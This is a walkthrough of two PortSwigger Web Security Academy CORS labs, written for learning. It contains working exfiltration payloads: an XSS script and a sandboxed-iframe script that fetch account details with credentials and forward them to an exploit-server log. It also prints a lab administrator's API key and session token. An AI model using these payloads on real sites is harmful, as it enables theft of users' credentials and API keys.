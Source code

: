 ### CORS vulnerability with trusted insecure protocols
This is a challenging LAB, at least for me, since I had problem to understand how CORS related concepts work clearly.<br>
We have the following information:
1. This website has an insecure CORS configuration that trusts all subdomains 
1. The trust relation is not protocol aware

To solve the lab we have to get the administrator's API key, expoliting CORS vulnerability using Javascript, so we can infer that we need to implement some asynchronous mechanism.<br>
First of we have to find the insecure CORS configuration, inspecting the history in Burp proxy we can see that a response to the <b>accountDetails request</b> is in a JSON format, moreover we can notice that in the response the <b>Access-Control-Allow-Credentials</b> is set, that suggests that an asynchronous request could be in place.
<br>![img](./img/55.png)<br>
Lets try to test the CORS security context adding the <b>origin</b> header to the request, if we get back the origin value in the <b>Access-Control-Allow-Origin</b> it means that the response can be shared with requesting code from the given origin. The use cases tested are the following:
+ Origin: null -> fails: Access-Control-Allow-Origin is not returned
+ Origin: https://www.google.it -> fails as above
+ Origin: https://test.LAB-ID..web-security-academy.net -> <b>OK</b>: the value is reflected into Access-Control-Allow-Origin response header
<br>![img](./img/56.png)<br>
So we know that we can issue cross-site request from a subdomain. Now we have to find a vulnerability to be exploited through a web page hosted in a lab sunbdomains, again lets inspect the Burp history while we navigate the lab. 
<br>![img](./img/57.png)<br>
From the above image we can see that a call to the <b>stock subdomain</b> is performed to check the stock amount, then sending the request to the Repeater we can try to verify if the query string parameters are injectable:
<br>![img](./img/58.png)<br>
The <b>productId</b> parameter is right to us, since  is prone to XSS attacks, we can take advantages of this vulnerability to exploit the CORS security lack. First of all, we will test if we are able to get the account details information for the current user, from the vulnerable stock web page hosted in the lab subdomain. We will delivery the following payload to try to get the account details for the current logged user (we must use credentials: 'include' in the fetch request to pass the credentials).
<br>![img](./img/59.png)<br>
Further we can see the response in the browser (right click in request section in the Repeater to get the URL)
<br>![img](./img/60.png)<br>
Finally we craft the payload to be set in the exploit server, we have to direct the flow to the vulnerable stock page first, then we redirect the response containing the account details to the exploit server log page as the query string parameter:
<br>![img](./img/61.png)<br>
As shown in the image above, I encoded (URL format) the actual payload passed as <b>productID parameter</b> (highlighted), for your convenience this is the plain version:
```
<script>
fetch('https://0a6e004204f74b30c142e98100f9006b.web-security-academy.net/accountDetails', {credentials: 'include'})
.then(response => response.text())
.then((response) => document.location='https://exploit-0aa600e7048e4bcac12de85a010500dd.exploit-server.net/log?x='+response);</script>

```
Once the explit is stored (1) we can verify if it works (2). As shown below, we can see that the redirection to exploit server access log works and that the account details are trasmitted into the query string
<br>![img](./img/62.png)<br>
Then we can delivery our payload to the victim and inspecting the access log: we can see the account details (URL encoded) for the administrator user
<br>![img](./img/63.png)<br>
Decode the query string <b>x parameter</b> value to get the API key

References:
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Mode
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Site
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Origin
+ https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch

### CORS vulnerability with trusted null origin
<b>Null origin</b> is similar to wildcard origin, a null origin is another way to allow any request to access the resources on websites, <b>but unlike wildcard origin, null origin allows access to the response if the Access-Control-Allow-Credentials header is set to true.</b>

#### Lab
The lab has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Let's login to see what requests are sent to the server. We can see that the details of the account is returned through a JSON response
<br>![img](./img/177.png)<br>
Since the <b>Access-Control-Allow-Credentials</b> header is returned we can infer that a CORS policy is in place. Let's try to see if setting a Origin to null in the request we can access the response (in this case we will see the Access-Control-Allow-Credential set to true again).
<br>![img](./img/178.png)<br>
<i>Please note that from now on my lab id changed.</i>
This is the case, so we know that the application implements insecure CORS configuration, now we could craft a CSRF payload to stole the victim API key, the proble here is how to force the victim's browser to send a null Origin value. <i>Googling</i> a bit it comes out that we can use an iframe with the <b>sandobox attribute</b>, but we have to set the value to allow scripts of course. We will use the <b>scrdoc</b> attribute to provide inline Javascript code to embed, overriding the src attribute.
Then we can try to use the following payload in the body of the exploit server:

    <iframe style="visibility:hidden" sandbox="allow-scripts" srcdoc="<script> fetch('https://0ad2004604eea142c0fe36cb00830033.web-security-academy.net/accountDetails', {credentials: 'include'}).then(response => response.text()).then((response) => document.location='/log?k='+encodeURIComponent(response));</script>"></iframe>

Save it into the body of the exploit server (1), then save it (2) and deliver it to the victim (3). After a minute visit the log (4) and you should see an entry related to the administrator data (5).
<br>![img](./img/179.png)<br>
<i>Please note that tryng to view the xploit will result in the request block due to CORS missing allow origin. Following there is a communication's extract in the HAR format </i>  

    "request": {

          "bodySize": 0,

          "method": "GET",

          "url": "https://0a9400f0049d2321c133bcfa000500a3.web-security-academy.net/accountDetails",

          "httpVersion": "HTTP/2",
          ...
           {

              "name": "Origin",

              "value": "null"

            },

    ---------------------------------------------------------------------------------------------------
    "response": {

          "status": 401,

          "statusText": "Unauthorized",

          "httpVersion": "HTTP/2",
          ...

Actually in the response the Access-Control-Allow-Credentials header is missing, that's not clear to me. I opened a post on the forum, if you are interested you can follow [here](https://forum.portswigger.net/thread/lab-cors-vulnerability-with-trusted-null-origin-cors-missing-allow-origin-4e02491c?CategoryId=how-do-i).

Coming back to the retrived data we can proceed to decode the query string and we get

    k={
        "username": "administrator",
        "email": "",
        "apikey": "zt2GNo4oPlKuJGF9nAm290g2vk1lUxrW",
        "sessions": [
            "LllLyyMkEjhiNx95JDsMmX5fhZOGfxSZ"
        ]
    }

Then we can submit the apikey to solve the lab


#### References
- https://portswigger.net/web-security/cors/access-control-allow-origin
- https://portswigger.net/web-security/cors
- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox